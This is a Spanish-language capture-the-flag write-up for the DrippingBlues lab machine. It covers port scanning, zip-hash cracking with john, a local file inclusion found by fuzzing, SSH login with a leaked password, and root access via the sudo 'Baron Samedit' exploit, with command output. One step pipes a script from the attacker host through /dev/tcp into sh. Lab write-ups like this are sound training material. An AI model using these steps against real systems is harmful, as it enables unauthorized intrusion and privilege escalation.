


```php 
##########################################################################################################
#
# CTF a la Máquina DrippingBlues
#
# DATE: 09/Feb/2022
#
#########################################################################################################
```
# Footprinting
```bash 
IP_atacante -> $ifconfig -> 192.168.0.5
IP_objetivo -> $netdiscover -r 192.168.0.0/24 -> 192.168.0.43
```
# Escaneo y enumeración
```php 
nmap -sVC -T4 -n 192.168.0.43
```
Descubro que tiene abierto el puerto 21 (FTP), 80 (Web) y 22 (SSH)

```php 
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 0        0             471 Sep 19 18:57 respectmydrip.zip [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9e:bb:af:6f:7d:a7:9d:65:a1:b1:a1:be:91:cd:04:28 (RSA)
|   256 a3:d3:c0:b4:c5:f9:c0:6c:e5:47:64:fe:91:c5:cd:c0 (ECDSA)
|_  256 4c:84:da:5a:ff:04:b9:b5:5c:5a:be:21:b6:0e:45:73 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/dripisreal.txt /etc/dripispowerful.html
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Enumeración ftp

Esta máquina tiene FTP y acceso anónimo, así que voy a comnenzar por ahí. Veo que tiene un fichero comprimido:
```php 
-rwxrwxrwx    1 0        0             471 Sep 19 18:57 respectmydrip.zip
```
Lo intento descomprimir con `unzip` pero me pide password, así que utilizo `john`

1. Utilizo la aplicación `zip2john` para obtener el hash
```php
zip2john respectmydrip.zip > hash_respectmydrip
```
2. Luego como siempre, utilizo john para crackear
```php 
john --wordlist=/usr/share/wordlists/rockyou.txt hash_respectmydrip
```
3. Finalizo con el comando para ver la password encontrada
```php 
john --show respectmydrip.zip
```

Descomprimo el zip con la contraseña `07-----` y obtengo otro fichero zip, `secret.zip` con contraseña y un fichero de texto que contiene:
```console
just focus on "drip"
```
El otro fichero `secret.zip` no he podido crackearlo con ese diccionario. Voy a continuar por otro lado y si no obtengo nada, tendré que volver. Tal vez sea un `rabbit hole` 

### Web
Al cargar la web, me aparece:
```console
driftingblues is hacked again so it's now called drippingblues. :D hahaha
by
travisscott & thugger 
```
Hago una búsqueda de directorios:
```php 
gobuster dir -r -u http://192.168.0.43 -w /usr/share/wordlists/dirb/common.txt -o dir-dripping.log
```
Y obtengo:
```php 
/index.php            (Status: 200) [Size: 138]
/robots.txt           (Status: 200) [Size: 78] 
```
En `robots.txt` tengo
```php 
User-agent: *
Disallow: /dripisreal.txt
Disallow: /etc/dripispowerful.html
``` 
El fichero `dripisreal.txt` contiene lo siguiente:
```php 
hello dear hacker wannabe,

go for this lyrics:

https://www.azlyrics.com/lyrics/youngthug/constantlyhating.html

count the n words and put them side by side then md5sum it

ie, hellohellohellohello >> md5sum hellohellohellohello

it's the password of ssh
``` 
Esto lo voy a dejar de momento y me voy a centrar en el fichero `php` porque no se a que se refiere con `n words`. La letra de la canción no es cualquier cosa!

Voy a fuzzearlo, comprobando si le puedo meter un `traversal path` y así poder leer el directorio `/etc/dripispowerful.html` 

```php 
wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hh 0 --filter "c=200 and l>8" http://192.168.0.43/index.php?FUZZ=/etc/passwd
```
He utilizado un filtro en el comando porque todas las peticiones tienen un Response 200 común, con 8 lines, salvo la del parámetro que me contestará 200 Ok y las líneas (si lo encuentra) del contenido de `/etc/passwd`, que no serán 8

```php 
=====================================================================
ID           Response   Lines    Word       Chars       Payload                               
=====================================================================

000172073:   200        57 L     107 W      3032 Ch     "drip"                                
000190642:   200        8 L      21 W       138 Ch      "Pink-Stripes" 
```

Ahí se ha visto que tiene 57 L. Me encuentra un parámetro `drip` que pruebo en el navegador: http://192.168.0.43/index.php?drip=/etc/passwd
Y me vuelca el contenido de ese fichero. Tengo un usuario

```php 
thugger:x:1001:1001:,,,:/home/thugger:/bin/bash sshd:x:126:65534::/run/sshd:/usr/sbin/nologin
```

Voy a comprobar que tiene el directorio `/etc/dripispowerful.html` utilizando el parámetro que acabo de encontrar. 
El código de ese `html` es:

```html
<!DOCTYPE html>
<html>
<body>
<style>
body {
background-image: url('drippin.jpg');
background-repeat: no-repeat;
}

@font-face {
    font-family: Segoe;
    src: url('segoeui.ttf');
}

.mainfo {
  text-align: center;
  border: 1px solid #000000;
  font-family: 'Segoe';
  padding: 5px;
  background-color: #ffffff;
  margin-top: 300px;
}

.emoji {
	width: 32px;
	}
</style>
password is:
im----------
</body>
</html>

<html>
<body>
driftingblues is hacked again so it's now called drippingblues. :D hahaha
<br>
by
<br>
travisscott & thugger
</body>
</html>
```

* En el código tengo una posible contraseña: `im----------`
* A la imagen `drippin.jpg`, le hago estego y no encuentro nada. Otro rabbit hole.

 


# Obtener acceso 

Intento entrar por SSH con el usuario `thugger` y esa contraseña `im----------`
Es válida y capturo bandera
```console
5C---------------------
```

# Elevación a root

No funciona lo tradicional, `sudo -l`, ni buscar binarios SUID. He buscado mas cosas y no he encontrado nada, así que voy a ejecutar un `linPEAS` en la máquina. Referencia: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

1. En la máquina atacante ejecuto:
```php 
sudo nc -q 5 -lvnp 8888 < linpeas.sh
```
2. Y desde la vulnerada
```php 
cat < /dev/tcp/192.168.0.5/8888 | sh
```
Y me detecta una versión de sudo que se puede vulnerar

 

La versión del CVE me despistó un poco, pero leyendo vi que se debería referir a la `CVE-2021-3156` conocida también por `Baron Samedit`. He encontrado una web que lo explica bastante bien, https://medium.com/mii-cybersec/privilege-escalation-cve-2021-3156-new-sudo-vulnerability-4f9e84a9f435

Así que sólo tengo que compilar los fuentes de https://github.com/blasty/CVE-2021-3156
y ejecutar el fichero generado: ./sudo-hax-me-a-sandwich

* No puedo compilarlo en la máquina vulnerada, así que lo hago en mi parrot y luego lo paso todo a la otra máquina con netcat

```php 
thugger@drippingblues:~/sandwich/CVE-2021-3156-main$ ls -l
total 48
-rwxr-xr-x 1 thugger thugger  1994 Şub  1  2021 brute.sh
-rw-r--r-- 1 thugger thugger  4420 Şub  1  2021 hax.c
-rw-r--r-- 1 thugger thugger   407 Şub  1  2021 lib.c
drwxr-xr-x 2 thugger thugger  4096 Şub 10 19:43 libnss_X
-rw-r--r-- 1 thugger thugger   264 Şub  1  2021 Makefile
-rw-r--r-- 1 thugger thugger  1187 Şub  1  2021 README.md
-rwxr-xr-x 1 thugger thugger 17256 Şub 10 19:43 sudo-hax-me-a-sandwich
```
* Al ejecutarlo me dice que tengo que poner el `target`
```php 
** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------
``` 
* Así que quedaría
```php 
$ ./sudo-hax-me-a-sandwich 1

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **
[+] bl1ng bl1ng! We got it!
# whoami
root
```
* Obtengo la bandera de root
```console
# ls -l
total 4
-r-x------ 1 root root 32 Sep 19 19:35 root.txt
# cat root.txt	
78--------------------
```
